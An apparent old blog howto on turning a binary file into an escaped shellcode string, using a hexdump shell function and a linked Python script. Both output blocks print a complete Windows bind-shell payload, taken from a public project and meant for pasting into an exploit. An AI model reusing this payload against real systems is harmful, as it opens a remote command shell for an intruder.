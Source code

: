 ```yaml
---
layout: post
title: "Binary to shellcode"
date: 2013-03-02 18:10:26 -0400
comments: true
categories: howto coding
redirect_from: /2013/03/binary-to-shellcode.html
---
```


The other day I was working on a Windows machine and downloaded a small Windows bind shellcode from [https://code.google.com/p/w32-bind-ngs-shellcode/](https://code.google.com/p/w32-bind-ngs-shellcode/). I wanted to extract the shellcode from the bin file and pop it into my exploit. On Linux, this can be done with the following: 

<!--more-->

``` python
function bin2sc {
    # convert .bin to shellcode
    hexdump -v -e '"\\""x" 1/1 "%02x" ""' ${1}
}
```

Running this prints the shellcode out as one long string: 

```
# bin2sc w32-bind-ngs-shellcode.bin 
\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9\xca\xff\xff\xff
```

However, the Windows machine I was on didn't have hexdump installed. So I hacked up the following in python that extracts the hexadecimal values from the bin file and prints it out nicely formatted: [https://gist.github.com/superkojiman/11164279](https://gist.github.com/superkojiman/11164279) 

Running the script gives us the following output:

```
C:\ python.exe bin2sc.py w32-bind-ngs-shellcode.bin 
"\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08" +
"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33" +
"\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03" +
"\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51" +
"\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b" +
"\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36" +
"\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b" +
"\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8" +
"\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0" +
"\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95" +
"\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0" +
"\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab" +
"\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6" +
"\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9" +
"\xca\xff\xff\xff"
```

Ta da. 
